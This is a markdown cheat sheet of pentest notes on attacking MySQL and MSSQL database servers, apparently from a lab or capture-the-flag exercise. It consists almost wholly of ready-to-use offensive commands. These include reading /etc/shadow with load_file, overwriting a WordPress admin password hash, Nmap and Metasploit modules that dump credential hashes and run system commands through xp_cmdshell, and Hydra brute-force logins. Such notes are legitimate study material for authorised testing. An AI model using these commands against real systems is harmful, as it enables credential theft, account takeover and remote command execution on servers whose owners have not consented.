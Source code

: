 # Initial Enumeration

- `mysql -h 192.71.145.3 -u root`
	- show databases;
	- use books;
	- show tables;
	- select count(\*) from authors;
	- select load_file("/etc/shadow");
	- UPDATE <table> SET <field> = <value> WHERE <field2> = <value>;
	- UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';

# Nmap scripts

- mysql-empty-password : check anon login
- mysql-info : check InteractiveClient capability
- mysql-users --script-args="mysqluser='root',mysqlpass=''"
- mysql-databases --script-args="mysqluser='root',mysqlpass=''"
- mysql-variables --script-args="mysqluser='root',mysqlpass=''" : check data-dir
- mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" : check if file privs can be granted
- mysql-dump-hashes --script-args="username='root',password=''"
- mysql-query --script-args="query='select count(\*) from books.authors;',username='root',password=''"
- ms-sql-info
- ms-sql-ntlm-info --script-args mssql.instance-port=1433
- ms-sql-brute --script-args userdb=<userlist>,passdb=<passlist>

![nmap ms-sql-brute output](./images/sql-01.png)

- ms-sql-empty-password
- ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" 
- ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"
- ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
	
# Metasploit Modules

- auxiliary/scanner/mysql/mysql_schemadump : Dump the schema of all databases from the server  ￼

![metasploit mysql_schemadump output](./images/sql-02.png)

- auxiliary/scanner/mysql/mysql_writable_dirs : writable dirs
- auxiliary/scanner/mysql/mysql_file_enum : readable files
- auxiliary/scanner/mysql/mysql_hashdump : database users hashdump

![metasploit mysql_hashdump output](./images/sql-03.png)

- auxiliary/scanner/mysql/mysql_login
- auxiliary/scanner/mssql/mssql_login
- auxiliary/admin/mssql/mssql_enum
- auxiliary/admin/mssql/mssql_enum_sql_logins : user enum
- auxiliary/admin/mssql/mssql_exec : execute a cmd is xp_cmdshell enabled
- auxiliary/admin/mssql/mssql_enum_domain_accounts : mps the information such as Windows domain users, groups, and computer accounts
  
  ![metasploit mysql_enum_domain_accounts output](./images/sql-04.png)
  
- auxiliary/admin/mysql/mysql_sql - needs creds to run sql queries.
- wordlists: 
	- usr/share/metasploit-framework/data/wordlists/directory.txt
	- usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# Hydra

- `hydra -l <user> -P <wordlist> <ip> mysql`
